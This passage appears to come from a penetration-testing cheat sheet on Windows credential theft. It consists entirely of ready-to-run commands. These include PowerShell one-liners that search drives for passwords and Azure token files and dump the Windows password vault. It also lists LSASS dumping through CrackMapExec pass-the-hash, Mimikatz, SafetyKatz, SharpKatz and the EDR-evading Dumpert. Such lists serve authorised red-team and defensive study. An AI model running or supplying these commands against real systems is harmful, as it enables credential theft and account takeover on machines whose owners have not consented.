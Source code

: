 #### Look for hardcoded passwords in scripts
```
Get-ChildItem -path C:\*  -Recurse -Include *.xml,*.ps1,*.bat,*.txt  | Select-String "password"| Export-Csv C:\Scripts\Report.csv -NoTypeInformation
Get-ChildItem -path C:\*  -Recurse -Include *.xml,*.ps1,*.bat,*.txt  | Select-String "creds"| Export-Csv C:\Scripts\Report.csv -NoTypeInformation
```

#### Check for Azure tokens
```
Get-ChildItem -path "C:\Users\*" -Recurse -Include *accessTokens.json*, *TokenCache.dat*, *AzureRmContext.json*
```

#### Dump password vault
```
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword();$_ }
```

## Dumping LSASS
#### Crackmapexec
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> --lsa
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> -M lsassy
```

#### DumpCreds
```
Invoke-MimiKatz -DumpCreds
```

#### Dump credentials on a local machine using Mimikatz.
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 
```

#### Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
```
SafetyKatz.exe "sekurlsa::ekeys"
```

#### Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
```
SharpKatz.exe --Command ekeys
```

#### Dump credentials using Dumpert (Direct System Calls and API unhooking)
```
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```
